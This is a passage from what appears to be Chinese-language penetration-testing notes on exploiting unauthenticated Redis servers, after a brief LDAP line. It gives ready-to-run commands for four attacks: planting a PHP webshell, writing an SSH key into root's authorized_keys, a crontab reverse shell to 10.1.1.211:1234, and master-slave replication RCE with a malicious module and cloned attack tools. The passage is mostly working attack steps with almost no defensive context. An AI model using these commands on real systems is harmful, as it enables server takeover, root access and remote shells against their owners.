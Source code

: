 ```bash
```
利用工具：使用LdapBrowser直接连入，获取敏感信息。<br />修复建议：增加强密码验证。
<a name="Yit0s"></a>
## 4、Redis未授权访问
<a name="SDCbX"></a>
### 漏洞利用：
<a name="d8ltr"></a>
#### 方式一：绝对路径写webshell
可以将dir设置为一个目录a，而dbfilename为文件名b，再执行save或bgsave，就可以写入一个路径为a/b的任意文件：
```bash
config set dir /home/wwwroot/default/
config set dbfilename redis.php
set webshell "<?php phpinfo(); ?>"
save
```
<a name="O1ems"></a>
#### 方式二：公私钥认证获取root权限
<a name="lFnWW"></a>
##### 1、ssh免密码配置
```bash
ssh-keygen -t rsa -P ''     #生成公钥/私钥对                           
cd /root/.ssh/
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt  #将公钥写入 foo.txt 文件
连接 Redis 写入文件
```
<a name="ctyfT"></a>
##### 2、连接Redis写入文件
```bash
cat foo.txt | ./redis-cli -h 192.168.125.140  -x set crackit
./redis-cli -h 192.168.125.140
config set dir /root/.ssh/
config get dir
config set dbfilename "authorized_keys"
save
```
利用私钥成功登录redis服务器<br />![](https://cdn.nlark.com/yuque/0/2020/png/396745/1599207381144-c291cae7-07c7-426f-8c92-7d02efdb8b0a.png#height=456&id=gK89u&originHeight=456&originWidth=721&originalType=binary&ratio=1&rotation=0&showTitle=false&size=0&status=done&style=none&title=&width=721)
<a name="xEvRn"></a>
#### 方式三：利用contrab计划任务反弹shell
```bash
config set dir /var/spool/cron/crontabs/
config set dbfilename root
flushall
set test "* * * * * /bin/bash -i >& /dev/tcp/10.1.1.211:1234 0>&1"
save
```
<a name="Zrgxx"></a>
#### 方式四：主从复制RCE
在Reids 4.x之后，Redis新增了模块功能，通过外部拓展，可以实现在Redis中实现一个新的Redis命令，通过写C语言编译并加载恶意的.so文件，达到代码执行的目的。<br />通过脚本实现一键自动化getshell：<br />1、生成恶意.so文件，下载RedisModules-ExecuteCommand使用make编译即可生成。
```bash
git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
cd RedisModules-ExecuteCommand/
make
```
2、攻击端执行：`python redis-rce.py -r 目标ip-p 目标端口 -L 本地ip -f 恶意.so`
```bash
git clone https://github.com/Ridter/redis-rce.git
cd redis-rce/
cp ../RedisModules-ExecuteCommand/src/module.so ./
```